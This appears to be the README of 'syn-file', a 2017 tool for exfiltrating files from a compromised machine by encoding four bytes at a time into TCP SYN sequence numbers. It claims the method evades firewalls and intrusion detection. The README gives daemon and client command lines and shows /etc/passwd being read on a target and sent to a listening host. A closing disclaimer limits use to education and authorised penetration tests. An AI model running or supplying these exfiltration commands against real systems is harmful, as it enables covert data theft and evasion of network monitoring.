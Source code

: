 # syn-file

Exfiltrate data from a compromised target using covert channels.


## Intro
**syn-file** is a software that allows data exfiltration using TCP SYN sequence number packets.
In that way it is possible to bypass firewalls or IDS as no TCP connection is ever opened... similar to SYN scanning.

To be faster exfiltrating data, a useful codification technique is used. Encoding 4 chars in a integer like this:

```seq= buf[0] << 24 | buf[1] << 16 | buf[2] << 8 | buf[3];```

##Background

There are some tools to deploy covert channels, mainly using ICMP protocol, padding the content in the payload section... suspicious!

However I have not seen any tool to deploy it using TCP sequence numbers, also in **syn-file** the payload is left empty ;-)


##usage / example


###server
```
# ./syn-daemon -i iface -s source_ip -f file_for_exfiltrated_data
-i interface
-s source ip
-f file to store exfiltrated data
```

Example:
```
# ./syn-daemon -i eth0 -s 192.168.1.155 -f passwd
using interface: eth0
libcap rule: "src host 192.168.1.155"
#    1 [SYN=1] [SEQ #= 3a32353a]
#    2 [SYN=1] [SEQ #= 32353a42]
#    3 [SYN=1] [SEQ #= 61746368]
#    4 [SYN=1] [SEQ #= 206a6f62]
#    5 [SYN=1] [SEQ #= 73206461]
#    6 [SYN=1] [SEQ #= 656d6f6e]
#    7 [SYN=1] [SEQ #= 3a2f7661]
#    8 [SYN=1] [SEQ #= 722f7370]
#    9 [SYN=1] [SEQ #= 6f6f6c2f]
#   10 [SYN=1] [SEQ #= 61746a6f]
...
```

And "passwd" recovered is:
```
# cat passwd 
at:x:25:25:Batch jobs daemon:/var/spool/atjobs:/bin/bash
avahi:x:481:481:User for Avahi:/run/avahi-daemon:/bin/false
avahi-autoipd:x:493:493:User for Avahi IPv4LL:/var/lib/avahi-autoipd:/bin/false
bin:x:1:1:bin:/bin:/bin/bash
colord:x:483:484:user for colord:/var/lib/colord:/sbin/nologin
daemon:x:2:2:Daemon:/sbin:/bin/bash
dnsmasq:x:486:65534:dnsmasq:/var/lib/empty:/bin/false
ftp:x:40:49:FTP account:/srv/ftp:/bin/bash
games:x:12:100:Games account:/var/games:/bin/bash
gdm:x:478:477:Gnome Display Manager daemon:/var/lib/gdm:/bin/false
...
```



###client (target)
```
# ./syn-file -i interface -d dst_ip -f file_to_exfiltrate -p dst_port -P src_port
-i interface
-d destination ip / IP that runs syn-daemon
-f file to exfiltrate
-p destination port
-P source port
```

Example from target machine:
```
# ./syn-file -i eth0 -d 192.168.1.158 -f /etc/passwd -p 8080 -P 8081 
using interface: eth0
#1	 [Read from file "at:x"] [Encoded SEQ nr: 0x61743a78] [Wrote 74 bytes]
#2	 [Read from file ":25:"] [Encoded SEQ nr: 0x3a32353a] [Wrote 74 bytes]
#3	 [Read from file "25:B"] [Encoded SEQ nr: 0x32353a42] [Wrote 74 bytes]
#4	 [Read from file "atch"] [Encoded SEQ nr: 0x61746368] [Wrote 74 bytes]
#5	 [Read from file " job"] [Encoded SEQ nr: 0x206a6f62] [Wrote 74 bytes]
#6	 [Read from file "s da"] [Encoded SEQ nr: 0x73206461] [Wrote 74 bytes]
#7	 [Read from file "emon"] [Encoded SEQ nr: 0x656d6f6e] [Wrote 74 bytes]
#8	 [Read from file ":/va"] [Encoded SEQ nr: 0x3a2f7661] [Wrote 74 bytes]
#9	 [Read from file "r/sp"] [Encoded SEQ nr: 0x722f7370] [Wrote 74 bytes]
#10	 [Read from file "ool/"] [Encoded SEQ nr: 0x6f6f6c2f] [Wrote 74 bytes]
```

##Disclamer
Only use allowed for educational purposes or professionaly during a penetration test given the proper permission.

All rights reserved

(c) 2017 spinfoo

Jacobo Avariento
